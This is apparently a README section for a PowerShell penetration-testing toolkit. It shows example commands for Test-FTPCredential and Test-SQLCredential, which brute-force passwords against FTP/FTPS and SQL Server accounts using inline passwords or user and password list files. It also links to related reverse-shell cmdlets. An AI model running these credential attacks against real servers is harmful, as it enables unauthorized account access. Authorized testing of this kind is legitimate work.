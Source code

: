- Test-FTPCredential is used to brute force passwords against an FTP or FTP over SSL server
```powershell
Test-FTPCredential -Server FTP.domian.com -Username ftpuser -Passwd 'Password123','Passw0rd1!','password123!' -Port 21 -Protocol FTP
# This example tests the 3 defined passwords against the ftpuser account on the FTP server located on FTP.domain.com over port 21

Test-FTPCredential -Server FTP.domian.com -Username ftpuser,admin -Passwd 'Password123','Passw0rd1!','password123!' -Protocol FTPS -Seconds 60
# This example tests the 3 defined passwords against the admin and ftpuser account on the FTP server located on FTP.domain.com over port 21, waiting 60 seconds in between failed attempts

Test-FTPCredential -Server FTP.domian.com -Username (Get-Content -Path C:\Temp\userlist.txt) -Passwd (Get-Content -Path C:\Temp\passlist.txt)
# This example tests the passwords in C:\Temp\passlist.txt against all users defined in C:\Temp\userlist.txt file against the FTP server located at FTP.domain.com over port 21, waiting 1 seconds in between failed attempts
```

- Test-SQLCredential is used to brute force passwords against a local or remote SQL Server
```powershell
Test-SQLCredential -Server sql.domian.com -Username sa -Passwd 'Password123','Passw0rd1!','password123!' -Port 1433
# This example tests the 3 defined passwords against the sa account on the SQL server located on sql.domain.com over port 1433

Test-SQLCredential -Server sql.domian.com -Username sa,admin -Passwd 'Password123','Passw0rd1!','password123!' -Seconds 60
# This example tests the 3 defined passwords against the admin and sa account on the SQL server located on sql.domain.com over port 1433, waiting 60 seconds in between failed attempts

Test-SQLCredential -Server sql.domian.com -Username (Get-Content -Path C:\Temp\userlist.txt) -Passwd (Get-Content -Path C:\Temp\passlist.txt)
# This example tests the passwords in C:\Temp\passlist.txt against all users defined in C:\Temp\userlist.txt file against the SQL server located at sql.domain.com over port 1433, waiting 1 seconds in between failed attempts
```
For more information on Start-Listener, Start-Bind, and Invoke-ReversePowerShell see [https://github.com/tobor88/ReversePowerShell](https://github.com/tobor88/ReversePowerShell)
